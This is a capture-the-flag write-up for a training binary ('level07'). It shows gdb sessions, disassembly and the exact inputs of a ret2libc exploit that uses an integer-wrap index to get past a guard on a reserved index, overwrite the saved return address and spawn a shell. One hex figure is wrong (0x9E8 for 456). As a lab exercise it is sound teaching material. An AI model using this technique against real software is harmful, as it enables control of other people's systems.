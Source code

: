 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis

This program appears to be a simple command-line interface for storing, reading, and managing numbers in an array-like data storage :

- The program defines functions for storing, reading, and managing numbers in an integer array.
- It reads user commands (store, read, quit) and performs corresponding actions.
- The main loop repeatedly prompts the user for commands, executes them, and provides feedback.
- The program continues until the user decides to quit or an internal error occurs.
- We cannot use the env for the exploit because it is cleared at the beginning of the `main` function
- As a result we will try to find a `/bin/sh` occurence and overflow the number storage to gain our flag


### step 3: Find occurence of /bin/sh

```
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) print &system  
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) 
```

As a result we have :
system address : `0xf7e6aed0`
bin/sh address : `0xf7f897ec`

### step 4: Find EIP of main function

```
(gdb) b main
Note: breakpoint 1 also set at pc 0x8048729.
Breakpoint 3 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 
Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) 
```

=> The eip address of the `main` function is `0xffffd70c`

### step 5: Find address of tab[100]

```
gdb
start 
disas main 

   0x080488df <+444>:   test   %eax,%eax
   0x080488e1 <+446>:   jne    0x80488f8 <main+469>
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
   0x080488ef <+460>:   mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:   jmp    0x8048965 <main+578>
   0x080488f8 <+469>:   lea    0x1b8(%esp),%eax
   0x080488ff <+476>:   mov    %eax,%edx
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi

   b*0x080488ea
   r
   x $eax
=> 0xffffd544:     0x00000000
```

=> The address of the tab[100] begining is `0xffffd544`

### step 6: Calculate tab index to overwrite

The interval between eip and tab is :
0xffffd70c - 0xffffd544 = 0x9E8 = 456 / 4 = 114
We divide the interval by 4 because it is an index of int which are 4 bytes long

### step 7 : Set sellcode to eip + 8 bytes

The shellcode address `0xf7f897ec`as an int is 4160264172
We set this address to the index 116 (eip + 8 bytes / 4)

```
insruction : store
number : 4160264172
index : 116
```

### step 8 : Set system address to eip

The system address `0xf7e6aed0` as an int is 4159090384

```
insruction : store
number : 4159090384
index : 114
```

However, we have a final issue. 114 can be divided by 3 so we can't write a number at the index 114 because we have this protection :
```
if ((input_index % 3 == 0) || (input_nbr >> 0x18 == 0xb7)) {
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    res = 1;
}
```

### step 9 : Use the UINTMAX overflow for the final exploit

To write a number at the index 114 even if 114 can be divided by three and therefore is protected we use the UINTMAX overflow :

114 * 4 = 456 bytes
(UINTMAX + 1) + 456 = 456
(4294967295 + 1 + 456) / 4 = 1073741938

As a conclusion, here is our second input :

```
insruction : store
number : 4159090384
index : 1073741938
```

Then we quit and we get a shell !

### step 10 : Final exploit

Here are the two inputs :

```
insruction : store
number : 4160264172
index : 116
```

```
insruction : store
number : 4159090384
index : 1073741938
```
Then we quit and we get a shell !


### Ressources :

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue